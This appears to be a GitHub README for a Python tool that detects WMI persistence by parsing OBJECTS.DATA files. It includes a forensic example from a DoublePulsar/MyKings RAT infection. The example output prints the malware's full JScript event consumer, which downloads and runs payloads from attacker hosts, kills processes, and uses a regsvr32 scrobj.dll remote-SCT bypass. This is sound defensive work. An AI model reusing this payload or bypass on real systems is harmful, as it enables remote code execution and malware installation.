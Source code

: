 # WMI_Persistence
A repo to hold some scripts pertaining WMI (Windows implementation of WBEM) forensics

## Usage:
> Requires Python 3.0+

** To scan a single file **
python WMIPers.py Name_of_File (Usually OBJECTS.DATA)

** To scan multiple files in a folder **
python WMIPers.py -d .\ # Will scan your current folder
python WMIPers.py -d C:\WMI_Samples

## Description:
This script is meant to find WMI persistence by directly parsing the contents of OBJECTS.DATA files thus not requiring access to the user's WMI namespaces. It doesn't require any particular dependencies other than standard Python libraries. The script works fine on both Windows and Linux systems. 
OBJECTS.DATA files can be found on any of two locations: 
- C:\Windows\System32\wbem\Repository\OBJECTS.DATA
- C:\Windows\System32\wbem\Repository\FS\OBJECTS.DATA

The code organizes all the data into a tidy <i>dict object</i> which will grow in complexity as I continue parsing relevant forensic information found in the WMI database file. This will also allow for an easy export to multiple file formats. 

## Example: The case of the Chinese RAT
### Finding malicious persistence script installed after exploiting DoublePulsar SMBv1.0 vulnerability
Many organizations were victims of multiple malware pieces that were weaponized via DoublePulsar. An investigation that I performed recently lead me to find an attack chain that exploited SMBv1.0 vulnerabilities and deployed code that achieved persistence via the use of WMI. Basically it runs a JScript that downloads a list of processes possibly belonging to old versions of the Chinese RAT and attempts to "taskkill" them clearing up the space for the new malicious EXE. It then posts information about running processes to the C2 server and attempts to download the RAT by using a known AppLocker bypass technique that involves registering an ActiveX component via the use of regsvr32.exe.

- A breakdown of how this malware works can be found here: https://www.cyphort.com/eternalblue-exploit-actively-used-deliver-remote-access-trojans/ (seems that the authors forgot however to include the WMI part of this malware)
- For a repo that features examples of how to implement AppLocker SCT bypass please see [here](https://github.com/subTee/SCTPersistence) and [a backdoor example here](https://gist.github.com/subTee/24c7d8e1ff0f5602092f58cbb3f7d302)

#### First we run the script
> python WMIPers.py OBJECTS.DATA

#### It will retrieve the general metadata
> --> Binding 48 | FilterToConsumerType: ActiveScriptEventConsumer | EventFilterName: uckmm2_filter | EventConsumerName: uckmm2_consumer

#### And then present the contents of the EventConsumers and EventFilters

> --> EventFilter: select * from timerevent where timerid="uckmm2_itimer"

> --> EventConsumer: 
var toff=3000;var url1 = "http://wmi.mykings.top:8888/kill.html";http = new ActiveXObject("Msxml2.ServerXMLHTTP");fso = new ActiveXObject("Scripting.FilesystemObject");wsh = new ActiveXObject("WScript.Shell");http.open("GET", url1, false);http.send();str = http.responseText;arr = str.split("\r\n");for (i = 0; i < arr.length; i++) { t = arr[i].split(" "); proc = t[0]; path = t[1]; dele = t[2]; wsh.Run("taskkill /f /im " + proc, 0, true);if (dele == 0) { try { fso.DeleteFile(path, true); } catch (e) {} } };var locator=new ActiveXObject("WbemScripting.SWbemLocator");var service=locator.ConnectServer(".","root/cimv2");var colItems=service.ExecQuery("select * from Win32_Process");var e=new Enumerator(colItems);var t1=new Date().valueOf();for(;!e.atEnd();e.moveNext()){var p=e.item();if(p.Caption=="rundll32.exe")p.Terminate()};var t2=0;while(t2-t1<toff){var t2=new Date().valueOf()}var pp=service.get("Win32_Process");var url="http://wmi.mykings.top:8888/test.html",http=new ActiveXObject("Microsoft.XMLHTTP"),ado=new ActiveXObject("ADODB.Stream"),wsh=new ActiveXObject("WScript.Shell");for(http.open("GET",url,!1),http.send(),str=http.responseText,arr=str.split("\r\n"),i=0;arr.length>i;i++)t=arr[i].split(" ",3),http.open("GET",t[0],!1),http.send(),ado.Type=1,ado.Open(),ado.Write(http.responseBody),ado.SaveToFile(t[1],2),ado.Close(),1==t[2]&&wsh.Run(t[1]);pp.create("regsvr32 /s shell32.dll");pp.create("regsvr32 /s WSHom.Ocx");pp.create("regsvr32 /s scrrun.dll");pp.create("regsvr32 /s c:\\Progra~1\\Common~1\\System\\Ado\\Msado15.dll");pp.create("regsvr32 /s jscript.dll");pp.create("regsvr32 /u /s /i:http://js.mykings.top:280/v.sct scrobj.dll");pp.create("rundll32.exe c:\\windows\\debug\\item.dat,ServiceMain aaaa");

## References: 
The script was inspired by the work of Graeber about WMI persistence mechanisms:
https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf

## Future Improvements: 
1) Scan all hosts in your network via SMB using the script
2) Export results to CSV
3) Scan multiple WMI Databases inside a folder
4) Extract more forensically relevant info from OBJECTS.DATA (like SCCM application execution remnants)
5) Decrypt execution values like the especific time setup for timer-based event triggers
6) Parse the contents of MOF files and link them to OBJECTS.DATA findings

